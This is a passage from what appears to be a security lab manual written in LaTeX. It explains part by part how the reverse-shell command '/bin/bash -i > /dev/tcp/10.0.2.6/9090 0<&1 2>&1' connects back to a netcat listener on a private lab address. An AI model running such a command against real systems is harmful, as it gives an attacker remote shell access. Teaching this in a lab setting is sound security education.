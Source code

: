 \begin{itemize}
\item \texttt{"/bin/bash -i"}: The option \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt).

\item \texttt{"> /dev/tcp/10.0.2.6/9090"}: This causes the output device~(\texttt{stdout}) of the shell
  to be redirected to the TCP connection to \texttt{10.0.2.6}'s port \texttt{9090}.
  In \unix systems, \texttt{stdout}'s file descriptor is \texttt{1}.

\item \texttt{"0<\&1"}: File descriptor \texttt{0} represents the standard input device~(\texttt{stdin}).
  This option tells the system to use the standard output device as the stardard input device.
  Since \texttt{stdout} is already redirected to the TCP connection, this option basically
  indicates that the shell program will get its input from the same TCP connection.

\item \texttt{"2>\&1"}: File descriptor \texttt{2} represents the standard error \texttt{stderr}. This
  causes the error output to be redirected to \texttt{stdout}, which is the TCP connection.
\end{itemize}

In summary, the command \texttt{"/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell on the server machine, with its input coming from a TCP connection,
and output going to the same TCP connection.
In our experiment, when the \texttt{bash}
shell command is executed on \texttt{10.0.2.5}, it connects back to the \texttt{netcat} process
started on \texttt{10.0.2.6}. This is confirmed via the \texttt{"Connection from 10.0.2.5 port
9090 [tcp/*] accepted"} message displayed by \texttt{netcat}.






\section{Submission}

\seedsubmission




